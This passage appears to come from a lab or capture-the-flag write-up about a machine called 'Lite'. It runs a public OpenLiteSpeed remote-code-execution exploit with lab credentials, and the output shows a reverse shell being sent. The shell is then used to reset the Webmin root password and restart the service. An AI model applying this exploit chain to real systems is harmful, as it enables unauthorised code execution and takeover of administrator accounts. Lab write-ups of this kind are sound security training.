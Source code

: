Using our access, we can actually reset the Webmin password.

{% embed url="https://linuxconfig.net/manuals/howto/how-to-reset-webmin-password.html" %}

However, it appears that only the `bin` group has access to the `/etc/webmin` group:

```
thor@Lite:~$ ls -la /etc/webmin/
total 536                                                                                    
drwxr-xr-x 116 root root 4096 Jun  7  2022 .                                                 
drwxr-xr-x 101 root root 4096 Jul 15 03:43 ..                                                
drwx--x--x   2 root bin  4096 Jun  7  2022 acl
drwx--x--x   2 root bin  4096 Jun  7  2022 adsl-client
drwx--x--x   2 root bin  4096 Jun  7  2022 ajaxterm
<TRUNCATED>
```

Earlier, the RCE exploit for OpenLiteSpeed required us to specify a GroupID, of which I specified `shadow` as the default. We can try specifying bin and using that shell to reset the password.

```
$ python3 49556.py 192.168.201.208:7080 admin Foster2020 bin   
[+] Authentication was successful!
[+] Version is detected: OpenLiteSpeed 1.7.8
[+] The target is vulnerable!
[+] tk value is obtained: 0.02467200 1689393257
[+] Sending reverse shell to 127.0.0.1:4444 ...
[+] Triggering command execution...
```

<figure><img src="../../../.gitbook/assets/image (3087).png" alt=""><figcaption></figcaption></figure>

Then we can reset the password and restart Webmin as `thor`:

```
nobody@Lite:/usr/bin$ /usr/share/webmin/changepass.pl /etc/webmin root toor
Updated password of Webmin user root
Webmin is not running - cannot refresh configuration

thor@Lite:~$ sudo /usr/bin/systemctl restart webmin
```

Using this, we can login to Webmin and view the dashboard:
